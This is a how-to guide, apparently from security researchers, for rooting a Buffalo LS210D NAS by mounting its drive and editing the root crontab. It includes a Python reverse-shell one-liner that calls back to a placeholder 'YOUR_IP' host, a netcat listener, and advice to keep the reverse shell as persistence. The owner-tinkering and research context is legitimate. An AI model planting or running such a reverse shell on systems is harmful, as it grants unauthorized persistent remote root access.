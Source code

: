 Test

How to Hack your Buffalo LS210D and get Root  
Christopher J. Pace and Ryan Miller

The LS210D is a Network Attached Storage (NAS) drive manufactured by Buffalo. Despite having recent vulnerabilities, the NAS drive appears to be well made. One of the best features of this NAS is that it runs Linux, specifically kernel version 3.3.4 (ARM). This means that if you had full root access to the device, you could install additional software or write your own web server. The NAS also comes with Python 2.7.2 and PHP-CGI version 5.3.23, making it the perfect platform for tinkering. However, out-of-the-box, the NAS does not allow full root access or allow SSH connectivity. This guide, part of our research on vulnerabilities for the Buffalo LS210D, is provided for anyone who legitimately owns an LS210D and wishes to have that root access.

Other than firmware tampering, you can also get access to the Buffalo LS210D via an external hard drive reader and a spare PC. You can probably depress the plastic catches on the outside of the NAS drive, but I decided to take a more drastic approach.



Once you have opened your LS210D, you can see that a spinner is mounted into a SATA interface on the system board. Unscrew the screws on the hard drive, and then slide while lifting to remove the hard drive. You can also remove the hard drive bracket, which may make it easier to remove the hard drive. To remove the hard drive bracket, gently rock it back and forth before lifting. There is a thermal pad that sits between the hard drive bracket and the CPU, gently rocking the hard drive bracket will allow you to remove the pad without tearing it.

Inserting the hard drive into a Linux-based PC (or using free ext3 Windows utilities), mount the hard drive. From here, you are looking to modify the file /etc/cron/crontabs/root, where you can add the following two lines at the bottom:

**\*/5 \* \* \* \* /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("YOUR\_IP",8088));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/bash","-i"\]);'**  
**\*/5 \* \* \* \* /usr/sbin/sshd**

Obviously replace the text YOUR\_IP with the IP address of a computer on the same network as the LS210D, making sure to preserve the quotes. The first line spawns a shell via python, and connects to another computer’s netcat session. The second line spawns the SSH service. These commands are ran every 5 minutes, but there is no noticeable impact of having them re-run continuously. If you would like, you can remove the first line once you’ve established a stable SSH session.

Once you’ve written those two lines to the root crontab file, start a netcat session on your PC that is on the same network as the LS210D:

**netcat -l 8088**

Once that command has entered on your PC, put the LS210D back together, and start it up. Once the clock reaches any minute that is divisible by 5, you will have an incoming connection from the NAS to your listening netcat session.



Once you receive the message “bash: no job control in this shell”, you’ll have full root privileges on the NAS. However, netcat is notoriously unstable, so you will want to immediately reset the root password via the ‘passwd’ command. Finally, you need to generate the host SSH keys, via these commands:

**ssh-keygen -t rsa -f /etc/ssh\_host\_rsa\_key -N ""**  
**ssh-keygen -t dsa -f /etc/ssh\_host\_dsa\_key -N ""**  
**ssh-keygen -t dsa -f /etc/ssh\_host\_key -N ""**



Now, after another 5 minutes, you should be able to SSH into the NAS. Make sure to confirm SSH access before terminating your netcat session, to make sure you didn’t mistype your new root password. Enjoy your new root privileges!

**To enable persistence, leave the reverse shell intact. If the Buffalo NAS is shut down improperly or loses power, it will reset the root password back to the default. The reverse shell configuration will enable you to reset the password back to whatever you want.**
